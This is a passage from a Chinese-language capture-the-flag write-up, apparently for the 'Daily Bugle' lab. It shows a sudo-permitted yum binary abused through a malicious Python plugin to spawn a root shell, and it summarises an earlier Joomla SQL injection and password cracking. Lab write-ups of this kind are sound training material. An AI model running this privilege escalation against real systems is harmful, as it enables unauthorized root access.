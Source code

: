 `yum`二进制可以由`sudo`执行。我将使用 [GTFOBins (n.d.)](https://gtfobins.github.io/gtfobins/yum/) 提供的指南来利用`yum`执行命令。首先，我将尝试找到`root.txt`标志:

```
**[jjameson@dailybugle ~]$ find / -type f -name root.txt -print 2>/dev/null
[jjameson@dailybugle ~]$**
```

这次搜索没有得到任何有用的信息。相反，我将尝试生成一个交互式的根 shell，而不是我原来的计划(这更容易实现:执行一个单独的`cat root.txt`命令):

```
**[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF**
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
**[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF**
> [main]
> enabled=1
> EOF
**[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF**
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
**[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y**
Loaded plugins: y
No plugin match for: y
**sh-4.2# id**
uid=0(root) gid=0(root) groups=0(root)
**sh-4.2#**
```

这很好。我现在可以转储包含标志的`root.txt`:

```
**sh-4.2# cat /root/root.txt**
[redacted]
**sh-4.2#**
```

阿洛拉。

# 结束事项

这是一个难度适中的试衣间。像往常一样，我调用了一种攻击性的安全方法来探测 boot2root 目标系统中可能被利用来获得初始进入的弱点。我利用了一个过时的 Joomla 上的 SQL 注入漏洞！内容管理系统，破解其散列密码，然后以此为基础进入 Joomla！超级管理员面板。
